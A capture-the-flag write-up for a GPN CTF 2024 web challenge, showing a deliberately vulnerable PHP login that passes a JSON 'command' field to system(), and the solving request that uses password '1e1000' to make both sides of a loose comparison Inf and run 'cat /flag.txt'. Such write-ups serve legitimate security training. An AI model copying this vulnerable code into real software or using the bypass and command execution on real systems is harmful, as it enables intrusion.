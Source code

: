 ```yaml
---
title: GPN CTF 2024 - never-gonna-tell-a-lie-and-type-you - web
published: true
---
```


Based on the attached `Dockerfile`, we know that the flag is at `/flag.txt`, and the app is a simple php login riddle:

```php
<?php
       ini_set("display_errors",1);
       error_reporting(E_ALL);
//we tought about using passwords but you see everyone says they are insecure thus we came up with our own riddle.
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;
    
}
//this weird http parameter handling is old we use json 
$user_input = json_decode($_POST["data"]); 
//attention handling user data is dangerous
var_dump($user_input);

if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman"){
    die("we don't tolerate toxicity");
}
    if($user_input->{'user'} === "admin🤠") {
        if ($user_input->{'password'} == securePassword($user_input->{'password'})  ){
            echo " hail admin what can I get you ". system($user_input->{"command"});
        }
        else {
            die("Skill issue? Maybe you just try  again?");
        }}
        else {
            echo "<html>";
            echo "<body>";
            echo "<h1>Welcome [to innovative Web Startup]</h1>";
            echo "<p> here we focus on the core values of each website. The backbone that carries the entire frontend</p><br><br>";
            echo "<blink>For this we only use old and trusty tools that are well documented and well tested</blink><br><br>";
            echo "<Big>That is not to say that we are not innovative, our authenticators are ahead of their time.</Big><br><br>";
           echo "<plaintext> to give you an teaser of our skills look at this example of commissioned work we build in a past project </plaintext>"; 
            
            echo system("fortune")."<br>";
        }
?>
```

After some fiddling around, I realised that if we supply large enough password they will be equal to each other, as `Inf == Inf` in PHP. So after supplying the required username and user agent, and of course an appropriate `cmd` parameter, we can get the flag with the following request:

```
POST / HTTP/1.1
Host: burn-it-down--linkin-park-0676.ctf.kitctf.de
User-Agent: friendlyHuman
Content-Type: application/x-www-form-urlencoded

data={"user":"admin🤠","password":"1e1000","command":"cat+/flag.txt"}
```

`1e1000` is a scientific notation for *1* followed by *1000 zeros*, which is a large enough number for the `securePassword` function to return `Inf`.
